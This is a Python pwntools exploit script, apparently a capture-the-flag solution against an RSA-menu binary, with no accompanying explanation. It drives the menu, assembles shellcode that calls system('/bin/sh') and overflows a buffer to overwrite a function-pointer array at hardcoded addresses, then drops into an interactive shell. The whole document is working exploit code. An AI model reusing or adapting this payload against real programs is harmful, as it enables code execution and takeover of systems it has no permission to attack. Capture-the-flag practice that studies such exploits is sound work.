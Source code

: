 ```python
    s.recvuntil('>')
    s.sendline('1')
    s.recvuntil('p :')
    s.sendline(str(p))
    s.recvuntil('q :')
    s.sendline(str(q))
    s.recvuntil('set public key exponent e :')
    s.sendline(str(e))
    s.recvuntil('set private key exponent d :')
    s.sendline(str(d))
    s.recvuntil('>')

    shellcode = '/bin/sh\x00'
    shellcode += asm('''mov rdi, {g_pbuf}
                        xor rsi, rsi
                        xor rdx, rdx
                        mov rax, [{system_global}]
                        call rax
                        mov rax, {exit}
                        jmp rax
                        '''
                    .format(g_pbuf=g_pbuf, system_global=system_global, exit=0x400CBA)
                    )

    # encrypt
    # encrypted payload goes to: 0x6020e0 <g_ebuf>
    # shellcode goes to: 0x602560 <g_pbuf>
    log.info("Overwrite func array")
    payload = shellcode
    payload = payload.ljust(256 + 1 + 7, 'A')
    payload += p32(addr_plaintext)

    s.sendline('2')
    s.recvuntil('how long is your data?(max=1024) :')
    s.sendline(str(len(payload)))
    s.recvuntil('paste your plain text data')
    s.sendline(payload)
    s.recvuntil('>')

    log.success('done')

    s.sendline('1')
    s.interactive()
    s.close()
```
